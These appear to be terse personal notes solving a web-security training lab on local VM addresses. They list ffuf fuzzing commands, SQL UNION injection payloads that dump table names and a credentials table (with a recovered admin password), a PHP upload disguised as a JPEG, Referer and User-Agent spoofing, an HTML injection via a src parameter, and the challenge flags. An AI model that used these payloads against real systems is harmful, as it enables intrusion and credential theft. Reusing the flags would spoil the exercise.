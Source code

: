 #+TITLE: Temp
* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Login :
5 UNION SELECT username,password FROM Member_Brute_Force.db_default
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~


* Feedback :
~flag - 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e~

* Upload image :
Upload un fichier .php, remplacer le content type de la requete par image/jpeg
~flag - 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8~

* Request from :
You must comming from : "https://www.nsa.gov/" to go to the next step
Changer le referrer de la requete et le user agent
~flag - f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188~

* Html-src :
http://192.168.56.105/?page=media&src=nsa
le src est remplacable par du code html
~flag - 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d~
ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'
